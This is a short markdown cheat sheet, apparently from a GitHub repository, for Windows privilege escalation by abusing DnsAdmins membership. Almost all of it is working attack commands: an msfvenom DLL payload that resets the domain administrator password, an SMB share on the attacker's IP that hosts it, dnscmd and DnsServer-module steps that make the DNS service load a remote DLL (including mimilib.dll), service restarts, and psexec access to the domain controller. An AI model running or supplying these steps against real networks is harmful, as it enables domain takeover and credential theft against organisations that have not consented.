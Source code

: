 ### A user that is a member of the DnsAdmins group, has the ability to use dnscmd.exe to specify a plugin DLL that should be loaded by the DNS service.

### We can create our own malicious .dll payload with msfvenom to escalate privileges

### Steps:

## Enumeration

    Get-NetGroupMember -GroupName "DNSAdmins"

    Get-ADGroupMember -Identity DNSAdmins

## Exploitation

#### 1) Craft malicious dll file

    msfvenom -p windows/x64/exec cmd='net user administrator P@55w0rd123! /domain' -f dll > pwn.dll

#### 2) Host the file remotely

    sudo smbserver.py share ./ 

#### 3) Set the remote DLL path into the windows registry

    cmd /c dnscmd localhost /config /serverlevelplugindll \\OUR_IP\share\pwn.dll 

#### 4) Restart the DNS service to execute our malicious dll

    sc.exe stop dns

#### 5) 

    sc.exe start dns 

#### 6) 

    sudo psexec.py DOMAIN.LOCAL/administrator@DC_IP

#### 7) PWN3D!

## Alternate Method: DNSServer module

    $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All

    $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"

    Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose

### Check for successful previous command

    Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
